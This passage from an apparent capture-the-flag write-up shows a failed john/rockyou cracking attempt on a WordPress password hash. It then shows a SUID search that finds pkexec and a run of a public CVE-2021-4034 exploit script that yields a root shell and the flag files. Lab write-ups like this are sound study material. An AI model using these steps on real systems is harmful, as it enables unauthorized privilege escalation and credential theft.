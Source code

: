 ```bash
  |  3 | kwheel     | $P$[removed]                       | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
  +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
```

I attempted to crack it using `john`, but was unsuccessful with `rockyou.txt`:
```bash
kali@kali:~/ctf/blog$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 512/512 AVX512BW 16x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:21 DONE (2025-03-22 07:39) 0g/s 175061p/s 175061c/s 175061C/s !!n0t.@n0th3r.d@mn.p@$$w0rd!!..*7¡Vamos!
Session completed.
```

I tried to check if the user reused the password, but that was unsuccessful as well.

## Privilege Escalation root

I then checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
www-data@blog:/var/www/wordpress$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
www-data@blog:/var/www/wordpress$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7ff8c433a000 at 0x7ff8c41c3ba8>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# whoami
  root
# cat /root/root.txt
  9[removed]8
# find / -name user.txt 2>/dev/null
  /home/bjoel/user.txt
  /media/usb/user.txt
# cat /media/usb/user.txt
  c[removed]7
```

solved! :)